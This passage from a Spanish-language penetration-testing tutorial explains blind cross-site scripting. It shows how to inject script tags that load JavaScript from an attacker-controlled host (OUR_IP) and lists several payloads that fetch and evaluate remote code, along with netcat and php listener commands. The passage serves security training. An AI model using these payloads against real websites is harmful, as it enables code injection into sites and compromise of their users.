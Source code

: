 -   Formularios de contacto
-   Reseñas
-   Detalles de usuario
-   Tickets de soporte
-   Encabezado de agente de usuario HTTP

digamos que tenemos el siguiente formulario:

![[Pasted image 20221220155523.png]]

En HTML, podemos escribir código JavaScript dentro de las `<script>`etiquetas, pero también podemos incluir un script remoto proporcionando su URL, de la siguiente manera:

```html
<script src="http://OUR_IP/script.js"></script>
```

Entonces, podemos usar esto para ejecutar un archivo JavaScript remoto que se sirve en nuestra máquina virtual. Podemos cambiar el nombre del script solicitado `script.js` por el nombre del campo que estamos inyectando, de modo que cuando recibamos la solicitud en nuestra VM, podamos identificar el campo de entrada vulnerable que ejecutó el script, de la siguiente manera:

```html
<script src="http://OUR_IP/username"></script>
```

Si recibimos una solicitud de `/username`, sabemos que el campo `username` es vulnerable a XSS, y así sucesivamente. Con eso, podemos comenzar a probar varias cargas útiles XSS que cargan un script remoto y ver cuál de ellos nos envía una solicitud. Los siguientes son algunos ejemplos que podemos usar de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss) :

#### BLIND XSS PAYLOADS

```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```

Antes de comenzar a enviar cargas útiles, debemos iniciar un oyente en nuestra VM, usando `netcat` o `php`:

```bash
sudo php -S 0.0.0.0:80

sudo nc -lvnp 80
```

